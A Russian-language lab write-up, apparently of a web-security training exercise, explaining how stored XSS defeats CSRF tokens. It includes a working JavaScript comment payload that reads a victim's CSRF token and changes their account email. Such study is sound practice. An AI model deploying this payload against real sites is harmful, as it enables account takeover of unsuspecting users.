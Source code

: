 # Exploiting XSS to perform CSRF

## Theory

<h3>Использование межсайтового сценариев для выполнения CSRF</h3>

Все, что законный пользователь может сделать на веб-сайте, вы, вероятно, сможете сделать и с помощью XSS. В зависимости от сайта, на который вы нацелены, вы можете заставить жертву отправить сообщение, принять запрос на добавление в друзья, зафиксировать бэкдор в хранилище исходного кода или перевести немного биткойнов.

Некоторые веб-сайты позволяют вошедшим в систему пользователям изменять свой адрес электронной почты без повторного ввода пароля. Если вы обнаружили уязвимость XSS, вы можете заставить ее активировать эту функцию, чтобы изменить адрес электронной почты жертвы на тот, который вы контролируете, а затем инициировать сброс пароля, чтобы получить доступ к учетной записи.

Этот тип эксплойта обычно называют подделкой межсайтовых запросов (CSRF), что немного сбивает с толку, поскольку CSRF также может возникать как отдельная уязвимость. Когда CSRF возникает как отдельная уязвимость, ее можно исправить с помощью таких стратегий, как токены защиты от CSRF. Однако эти стратегии не обеспечивают никакой защиты, если также присутствует уязвимость XSS.

## Writeup

* Имеющиеся данные: 
    * Данные нашего пользователя: wiener:peter

Главная страница:

![](./assets/1.png)

Логинимся с имеющимися данными. Попробуем сменить почту аккаунта. Перехватим запрос. Мы можем заметить, что приложение использует CSRF токен для обеспечения защиты.

![](./assets/2.png)

Перейдем к посту и спустимся в низ страницы. Мы можем заметить поле для комментария.

![](./assets/3.png)

Запишем в поле комментария наш эксплоит. Мы будем получать токен CSRF и изменять почту другого пользователя, на почту, подконтрольную нами. Код эксплоита:
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

![](./assets/4.png)

Оставляем комментарий и получаем ответ от сервера.

![](./assets/5.png)